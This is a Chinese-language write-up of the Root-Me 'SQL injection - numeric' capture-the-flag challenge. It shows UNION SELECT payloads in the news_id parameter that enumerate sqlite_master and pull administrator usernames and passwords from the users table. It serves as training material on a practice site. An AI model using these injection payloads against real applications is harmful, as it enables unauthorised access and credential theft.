



Root-Me [SQL injection - numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-numeric)
===

簡單的頁面，但有兩個籤頁 `Home`、`Administration`。(?

## 解題關鍵
1. SQL-i
2. SQLite
3. PHP

## 提示訊息
```
Retrieve the administrator password.
```

## 解題方法
該題跟 [33] SQL injection - string 有點像，首先還是簡單的測試一下，該頁面有提供登入功能，以及新聞查看功能，而新聞有三篇文章。  

簡單猜測大概是要用 SQL-i 取得管理員密碼，並登入取得 Flag，所以 SQL-i 的弱點應該不會在 `Login` 的部分。  

```
action=news&news_id=1 + 1  //Fail
action=news&news_id=1 - 1  //Success
```

透過上方的簡單判斷，該部分讀取的類型為 `int`，所以不必使用單引號就可以注入 SQL 指令。  

```
http://challenge01.root-me.org/web-serveur/ch18/
?action=news
&news_id=1 union select 1,2,name FROM sqlite_master  --
```

  

注入以上指令之後可以發現有兩個欄位 `news`、`users` 兩個，接著查看欄位的結構。  

```
http://challenge01.root-me.org/web-serveur/ch18/
?action=news
&news_id=-1 union select 1,2,sql FROM sqlite_master  --
```

  

接著秀出 `users` 資料表的 `username`、`password` 欄位值，解決該題。  

```
http://challenge01.root-me.org/web-serveur/ch18/
?action=news
&news_id=-1 union select 1,username,password FROM users  --
```

  

## Reference
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20path%20truncation.html  


## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)